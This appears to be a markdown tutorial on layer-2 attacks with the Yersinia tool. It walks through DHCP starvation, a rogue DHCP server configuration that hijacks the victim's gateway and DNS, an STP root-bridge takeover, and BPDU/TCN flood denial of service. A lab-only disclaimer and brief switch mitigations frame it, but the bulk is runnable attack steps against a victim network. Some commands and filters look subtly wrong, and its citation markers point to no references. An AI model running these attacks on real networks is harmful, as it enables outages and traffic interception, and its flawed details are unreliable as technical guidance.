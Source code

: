 # Launch **layer‑2 attacks** using Yersinia, with **real-traffic examples** on a victim host. 

❗Only perform these in a controlled lab or with explicit authorization.

---

## 🎯 1. DHCP Starvation + Rogue DHCP (Target: victim-PC)

### A. DHCP Starvation

* **Goal**: deplete DHCP pool.

**Steps**:

1. Start Yersinia in GUI:

   ```bash
   sudo yersinia -G
   ```
2. Navigate: *Launch attack → DHCP → sending DISCOVER packet* → *OK*
3. Monitor victim side (`victim-PC`):

   * It sends DISCOVER but never gets an address.
   * Watch packet flood in Wireshark or `yersinia.log`.
4. Stop when pool is depleted: *List attacks → cancel*.

### B. Rogue DHCP Injection

* **Goal**: assign victim a fake IP/DNS/gateway.

**Steps**:

1. After starvation, deploy rogue DHCP server:

   ```bash
   sudo apt install isc-dhcp-server
   ```
2. Configure `/etc/dhcp/dhcpd.conf`:

   ```
   subnet 192.168.1.0 netmask 255.255.255.0 {
     range 192.168.1.200 192.168.1.220;
     option routers 192.168.1.254;
     option domain-name-servers 1.1.1.1;
   }
   ```
3. Restart service and let victim renew lease.
4. Victim uses attacker’s gateway/DNS → full MITM.

💡 Combine with Bettercap ARP spoofing for traffic interception.

---

## 🌐 2. STP Attacks (Target: switch/victim-network)

### A. Claim Root Bridge

* **Goal**: redirect network via attacker.

**Steps**:

```bash
sudo yersinia stp -I
```

* In curses UI, go to *STP → Launch Attack → Claim root role*
* Attacker floods low-priority BPDUs → switch re-elects attacker as root ([AmIRootYet][1], [ProSec GmbH][2], [ProSec GmbH][3])
* Now **all inter-switch traffic** flows through attacker’s NIC.

### B. STP DoS – BPDU Flood / TCN Flood

* **Goal**: disrupt LAN traffic.

**Steps**:

* In same STP menu:

  * **Conf BPDU DoS** (flood wrong config frames)
  * **TCN DoS** (constant restructuring)
* Output: network congestion or switch reconverges repeatedly ([ProSec GmbH][3]).

📌 Victim symptoms: latency, path flaps, excessive broadcast/multicast.

---

## 🧠 Example CLI Attacks (without GUI)

```bash
# DHCP starvation:
sudo yersinia dhcp -a

# STP root claim:
sudo yersinia stp -r

# STP BPDU flood:
sudo yersinia -D
# Then in CLI:
stp flood
```

Use `yersinia <protocol> -h` to explore options ([Black Hat][4]).

---

## 🔍 Monitoring & Verification

* On **victim**:

  * `ip a` → no DHCP lease or wrong gateway.
  * DNS fails or resolves via fake DNS.
* On **network**:

  * Use `tcpdump -i eth0 ether proto 0x006` to capture BPDU frames.
  * Check switch logs for root-change messages.

---

## 🛡️ Mitigation Strategies

* Enable **DHCP Snooping**, **Port Security**, and limit MACs per port.
* On switches:

  ```text
  switchport mode access
  spanning-tree bpduguard enable
  spanning-tree guard root
  ```

  Prevent DTP, dynamic trunking and rogue STP devices.

---

## 🗂️ Summary Table

| Attack Type     | Command                       | Victim Effect                  |
| --------------- | ----------------------------- | ------------------------------ |
| DHCP Starvation | `yersinia dhcp -a` or GUI     | No DHCP IP → LAN DoS           |
| Rogue DHCP      | rogue server after starvation | MitM via fake gateway/DNS      |
| STP Root Claim  | `yersinia stp -r` or GUI      | Intercept inter-switch traffic |
| STP DoS         | BPDU/TCN flood  via GUI/CLI   | Traffic blips, loops, outages  |

---

